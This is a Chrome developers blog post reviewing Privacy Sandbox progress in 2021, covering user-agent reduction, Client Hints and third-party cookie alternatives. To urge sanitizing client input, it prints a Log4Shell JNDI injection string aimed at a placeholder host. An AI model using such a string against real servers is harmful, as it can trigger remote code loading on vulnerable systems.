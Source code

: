 ```yaml
---
title: Progress in the Privacy Sandbox (December 2021)
description: >
  Looking back at stats from 2021 and some resolutions for tackling user-agent and cookies in 2022.
layout: 'layouts/blog-post.njk'
date: 2021-12-30
authors:
  - rowan_m
hero: 'image/VWw0b3pM7jdugTkwI6Y81n6f5Yc2/Ut0IykTaEFBuOA5EHqbg.png'
alt: >
  Privacy Sandbox logo
tags:
  - progress-in-the-privacy-sandbox
  - privacy
---
```


Welcome to the December and end-of-year edition of "**[Progress in the Privacy Sandbox](/tags/progress-in-the-privacy-sandbox/)**" tracking the milestones on the path to phasing out third-party cookies in Chrome and working towards a more private web. Normally we would share an overview of the updates to the **[Privacy Sandbox timeline](https://privacysandbox.com/timeline/)** along with news from across the project, but December has been a quiet month so instead we'll look back at some of the activity over 2021 and provide a few potential resolutions you can make for the new year.


## Chromium development process

For a new web platform feature to land in Chromium (and therefore Chrome) it needs to go through the [project's open development process](https://www.chromium.org/blink/launching-features). In 2021, the Privacy Sandbox team produced:

<table style="font-size: 140%; font-weight: bold;">
<tr><td>🥚</td><td>Intent to Prototype </td><td>20</td></tr>
<tr><td>🧪</td><td>Intent to Experiment</td><td> 8</td></tr>
<tr><td>🚀</td><td>Intent to Ship      </td><td>11</td></tr>
</table>



Source: 

Each milestone is also an invitation for the wider developer ecosystem to contribute.

An **Intent to Prototype** is the first checkpoint and where we invite discussion and early experimentation. This means the proposal will be available on GitHub, meaning **you can ask questions via Issues** or **[join discussions and presentations in standards groups](/docs/privacy-sandbox/cds21-update/#discussion)** such as the W3C and IETF. This is also the point where coding begins, meaning you can **expect the prototype functionality to be made available for developer testing behind a flag**. Initial developer feedback is critical for validating and iterating on the proposal.

An **Intent to Experiment** is an optional step if we would like to request an Origin Trial. This means that **you can [sign up for the Origin Trial](/blog/origin-trials/)** and then **test the feature on your production site**. It's called an experiment because we will have specific aspects of the feature we want to validate in real-world environments. Developers that can **test and share the results of those tests** provide valuable feedback to help iterate and evolve the feature.

An **Intent to Ship** is the final milestone which signals that the feature is now complete and ready to go to production. Once approved, the feature will be merged into an upcoming release and then progress through the canary, beta, and stable channels. It's critical to ensure you **test your sites with the [canary](https://www.google.com/chrome/canary/) and [beta](https://www.google.com/chrome/beta/) versions of Chrome** to catch and report any bugs before the feature reaches stable.


## Proposals

Each Privacy Sandbox proposal has an accompanying GitHub repository with an explainer to summarize the overall functionality, a detailed specification for implementation by browsers, and then contributions from across the web ecosystem in the form of Issues and Pull Requests.

Across 14 Privacy Sandbox repositories, we had:


<table style="font-size: 140%; font-weight: bold;">
  <tr><td rowspan="2">💬</td><td>545</td><td>Issues created</td></tr>
  <tr>                       <td>250</td><td>Issues closed</td></tr>
  <tr><td rowspan="2">🛠️</td><td>261</td><td>Pull Requests created</td></tr>
  <tr>                        <td>223</td><td>Pull Requests merged</td></tr>
</table>


Source: 

The language in explainers and specifications often starts as quite targeted to an audience already familiar with standards and browser development which can be challenging if you're unfamiliar with it. However, the aim of an explainer is to explain! If there are points that are unclear or not covered, **we want you to raise an Issue** so we can improve.


## Resolutions


### User-agent spring cleaning

As we count _down_ to the New Year, we're also counting _up_ to both [Chrome 100](/blog/force-major-version-to-100/) and the incremental [reduction of the user-agent string](/docs/privacy-sandbox/user-agent/). This is a good motivator to revisit any usage of the user-agent string in your code to check if it's affected by either of these changes.



1. To find those areas, search for `navigator.useragent` in your JavaScript code or access to the `User-Agent` header in your server code.
2. Check your parsing of the string for assumptions about a 2 digit version. For example, a regex that specifies `\d\d` or `\d{2}` should be replaced with `\d+`.
3. Check your use of the string for anywhere you rely on: platform (operating system) version, the full Chrome build version, or the mobile device name. These are the values that will be reduced to fixed values in the future. If you need access to these values, you will need to [migrate to User-Agent Client Hints](https://web.dev/migrate-to-ua-ch/).

There is one December update to mention—if you are adopting User-Agent Client Hints then we have sent the **Intent to Ship to [enable delegating hints to other origins in HTML](https://groups.google.com/a/chromium.org/g/blink-dev/c/JQ68cvYuiQU/m/S_33YSqxCwAJ)** via a `&lt;meta>` tag, for example:

```javascript
<meta name="accept-ch" content="sec-ch-width=( https://foo.bar )">`
```

If you're in an enthusiastic spring cleaning mood, you can also consider alternatives to the use of user-agent altogether. If you're using the string to detect mobile devices, then investigate if you can replace this with responsive design. If you're checking the browser name and version for feature support, see if you can use feature detection instead.

It's always worth remembering that the user-agent, like any client provided value, is not guaranteed to be accurate or even provided. The recent [Log4j vulnerability, "Log4shell"](https://nvd.nist.gov/vuln/detail/CVE-2021-44228#vulnCurrentDescriptionTitle) provides an example of this risk. A client that set its user-agent string to include a string like `${jndi:ldap://example.com/file}` may be able to get a site to actively parse that on the server-side. It's critical that you treat user-agent in the same way as any other form of user input—sanitize and validate it before acting on that value.


### Cookie cataloguing

Another traditional new year activity is to make sure you're happy you have a healthy number of cookies with quality ingredients. As we continue moving towards the phase out of third-party cookies, you should make sure you know which of your site's cookies will be affected. 2020 provided a headstart as it became necessary to [mark all cookies for cross-site or third-party use](https://web.dev/samesite-cookies-explained/#samesitenone-must-be-secure) with `SameSite=None`. 

Any cookie where you have set the `SameSite` attribute to `None` will need an update.

There are three possible routes to consider at the moment:



1. If the cookie is only required in a 1:1 relationship with the top-level site, then follow the progress of the **[CHIPS proposal](https://github.com/WICG/CHIPS)** which would mean adding the `Partitioned` attribute to the cookie.
2. If the cookie is used in a cross-site context, but only across sites that you own and operate, then it may be a candidate for **[First-Party Sets](/docs/privacy-sandbox/first-party-sets/)**. This would involve both defining the sites in the set and adding the `SameParty` attribute to the cookie.
3. If the cookie is used to provide some form of shared value across multiple sites, you will need to investigate the wider set of [Privacy Sandbox proposals](/docs/privacy-sandbox/) for an alternative solution that does not rely on cross-site tracking.

If you're feeling especially healthy, then this is also an ideal time to revisit all of your cookie usage as we have a good recipe to improve your first-party cookies too.

{% YouTube id='1g2uQfP1Q3U' %}


## Feedback

As we continue to publish these monthly updates, and progress through the Privacy Sandbox as a whole, we want to make sure that developers receive the information and support that they need. Let us know on [@ChromiumDev Twitter](https://twitter.com/ChromiumDev) if there's anything that we could improve in this series. We'll use your input to continue improving the format.

Check out the **[Privacy Sandbox FAQ](/docs/privacy-sandbox/faq/)**, which we continue to expand based on the issues you submit to the [developer support repo](https://github.com/GoogleChromeLabs/privacy-sandbox-dev-support). If you have any questions around testing or implementation on any of the proposals, come talk to us there.
